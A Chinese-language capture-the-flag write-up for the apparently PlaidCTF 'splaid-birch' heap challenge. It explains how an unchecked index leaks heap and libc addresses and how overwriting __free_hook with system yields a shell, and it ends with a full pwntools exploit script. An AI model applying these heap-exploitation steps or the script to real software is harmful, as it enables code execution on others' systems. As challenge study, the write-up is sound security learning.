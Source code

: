 因为怕睡起来忘了，先把wp写了  
程序的主要逻辑相对简单，就是一个菜单
![](code_logic.jpg)  
`get_sp_point` 和 `get_sp_nth` 都不是关键函数，所以直接略过  
稍微手工 fuzz 了下，程序的主要逻辑写的是一个平衡二叉树，也就是一个树状结构，在 `libsplaid.so.1` 封装了关于树的一些操作，比如 `add` 和 `delete`  
每个节点有一个 `index` 有一个 `value` , 并且有三个指针分别指向当前 节点的叶节点,左孩子,右孩子  
没有还原结构体,所以这里就不分析结构体了
delete 会按照 `index` 进行匹配, add 也会和已有的 `index` 进行对比,如果重复将不能插入  
程序的第一个漏洞在 `set_sp_select` 中,对于参数 `p1` (`a2`)没有 check 范围  
![](break_point.jpg) 
`a1` 类似于一个映射表,在里面会存每一个结构体的地址,所以如果我们控制得好，那么就可以打印出 `(v2 + 8 - 0x28)` 即 `(v2 - 0x20)` 的信息了  
因为映射表是在堆上，所以根据偏移和树状结构中所存储的堆地址信息，我们可以计算出 `heap_base`  
`heap_base` 已获得  
但这还不够强大，我们还需要 `libc_base`, 泄露 `libc_base` 我们需要在堆地址上写入 `main_arena` 的信息，也就是需要一个 unsorted bin,在 add 函数中只能分配固定 0x48 大小的堆块, fastbin 大小,所以不可能出现 unsorted bin ,经过发现这个地方有可能出现  
![](unsorted_bin.jpg)  
根据 realloc 的信息，先在基地址上扩展堆块，能够扩展则地址不变;如果不能扩展,那么会把原来的堆块 free 后再分配,注意分配的堆块会清0  
也就是说,这里有个变相的 free ,那么 `chunk_size` 我们能控制吗
![](add_list.jpg)  
经过逆向，发现这个逻辑是 映射表 list 的 index 不够用的时候，会把栈上的结构体更新，并且 realloc 一个更大的 chunk ,所以我们只要分配足够多的节点，就会得到一个 unsorted bin  
这里其实不需要这么做,因为分配过多的堆块会影响 debug  
在 add 函数中会 `++a1[5]`,相当于一个计数器,但是在 delete 函数中,并没有类似的操作  
所以我们可以 add & free 达到类似的效果  
`libc_base` 已获得  
在这时，我们已经得到需要的地址, `heap_base & libc_base`  
那么我们需要一个任意地址写,在 2.27 的 libc 中,我们可以直接构造 double free 获得类似的效果  
为了构造 double free,这里主要考虑两个思路:
- 通过 del 操作,构造 double free
- 通过 uaf 操作,构造 add 后的 chunk 有已经存在的指针信息  
那么我们需要对 `libsplaid.so.1` 进行逆向  
逆向之后发现 del 函数没有问题, 就是一个平衡二叉树的操作  
![](sp_add_func.jpg) 
在 `sp_add` 函数中发现了一些 bug,也就是并没有对 `heap_addr[0]` 进行初始化(`heap_addr[0]:叶节点,heap_addr[1]:left_child,heap_addr[2]:right_child`)  
这使得我们可以 del 一个不是根节点的节点,那么可以获得一个 `heap_addr[0]` 不为 0 的 chunk,也就是一个 uaf,但是在测试的时候发现这个思路并不可行,因为 `heap_addr[0]` 会被置为 0,那么是在哪置为 0的呢  
![](del_func.jpg)  
经过逆向发现,在 del 函数中如图的位置，会将这个将要 delete 的节点，置为根节点,所以其 `heap_addr[0]` 会被置为0 ,也就是说,这个函数的作用就是 change root  
在此，double free 的基本思路都不可行  
![](sp_select_func.jpg)  
然后在 `sp_select` 函数中发现了这个函数，通过调试发现其根节点也会变化,前面说过这个 select 函数的 index 是可以任意决定的, 那么我们可以在任意地址生成一个根节点,如果这个根节点是一个已经 free 过的根节点,那么就是一个 double free 了.  
这个思路是可行的  
- 通过 `sp_select` 函数泄露 `heap_base & libc_base`  
- 通过 `sp_select` 更改根节点构造 double free
但是，经过调试之后发现,会在最后的时候一直分配不出来,前面已经讲过, add 的时候会 check index 是否存在,如果 double free 的话,会造成无法 add 的问题  
做到这心态差点崩了  
![](isolate2_func.jpg) 
那么我们需要另外一个任意地址写,因为我们已经有了一个任意地址生成结构体,在 isolate2 函数中,有一个 `+=a2`,因为结构体是一个任意地址，相当于一个任意地址写了,那么我们的思路是  
- 通过 `sp_select` 函数泄露 `heap_base & libc_base`  
- 通过 `sp_select` 更改根节点构造一个在 `__free_hook` 周围的 chunk  
- 修改 `__free_hook` 为 `system`  
- free 一个 index 为 /bin/sh 的结构体 -> system("/bin/sh")  
payload 如下:

```python
from pwn import *
import sys

if len(sys.argv) < 2:
    debug = True
else:
    debug = False

if debug:
    p = process("./splaid-birch", env = {"LD_PRELOAD":"./libsplaid.so.1"})
    libc = ELF("./libc.so.6")
    elf = ELF("./splaid-birch")
else:
    p = remote("splaid-birch.pwni.ng","17579")
    libc = ELF("./libc.so.6")
    elf = ELF("./splaid-birch")

def menu(choice):
    p.sendline(str(choice))

def free(value):
    menu(1)
    menu(value)

def show1(value):
    menu(2)
    menu(value)

def show2(index):
    menu(3)
    menu(index)

def show3(index):
    menu(4)
    menu(index)

def add(value,index):
    menu(5)
    menu(value)
    menu(index)

def isolate(p1,p2):
    menu(6)
    menu(p1)
    menu(p2)

def isolate2(p1,p2,p3):
    menu(7)
    menu(p1)
    menu(p2)
    menu(p3)

code_base = 0x555555554000
code_base2 = 0x7ffff7bd2000
def debugf():
	#gdb.attach(p,"b *{b1}\nb sp_select\nb sp_isolate\nb sp_del".format(b1 = hex(code_base + 0x1074)))
	gdb.attach(p,"b *{b1}\nb sp_select\nb sp_isolate\nb sp_del\nb sp_add\nb *{b2}".format(b1 = hex(code_base + 0x1074),b2 = hex(code_base2 + 0xE03)))
	#gdb.attach(p,"b *{b1}\nb sp_select\nb sp_isolate\nb sp_del\nb *{b2}".format(b1 = hex(code_base + 0x1074),b2 = hex(code_base + 0xD4E)))

context.log_level = "debug"
context.terminal = ["tmux","splitw","-h"]
"""
for i in range(0xa01):
    add(i,1)"""
add(1,1)
add(2,2)
add(3,3)
show3(541)
info = int(p.recvuntil("\n",drop = True))
heap_base = info - 0x1348
log.success("heap_base:" + hex(heap_base))
show3(1)
free(1)
free(2)
free(3)
for i in range(0xa0 - 4 - 2):
    add(1,1)
    free(1)
add(1,1)
add(2,2)
add(3,3)
add(4,4)
target = heap_base + 0x13c0
log.success("libc_leak_target:" + hex(target))
#debugf()
free(1)
free(2)
free(3)
free(4)
add(target - 8,9)
show3(-10)
#debugf()
p.recvline()
info = int(p.recvuntil("\n",drop = True))
libc.address = info - 96 - 0x10 - libc.symbols["__malloc_hook"]
log.success("libc_base:" + hex(libc.address))
#debugf()
show3(0xa1)
free(target - 8)
#debugf()
target_value = u64("/bin/sh\x00")
add(target_value,libc.symbols["__free_hook"] - 0x10)
show3(-9)
isolate2(libc.symbols["system"],0,0)
show3(0xa2)
free(target_value)
"""
target = heap_base + 0x18d0
log.success("double_free_target:" + hex(target))
add(target - 8,target - 8)
free(target - 8)
show3(-10)
free(0)
index_target = heap_base + 0x1320
free(index_target)
index_target = heap_base + 0x12d0
free(index_target)
debugf()
attack_target = libc.symbols["__free_hook"] - 8
attack_value = libc.symbols["system"]
attack_value2 = u64("/bin/sh\x00")
add(attack_target,0)
add(100,100)
add(101,101)
add(attack_value2 - 1,attack_value)
add(attack_value2 ,attack_value)
add(attack_value2 + 1,attack_value)
add(attack_value2 + 2,attack_value)
free(attack_value2)
"""
p.interactive()
```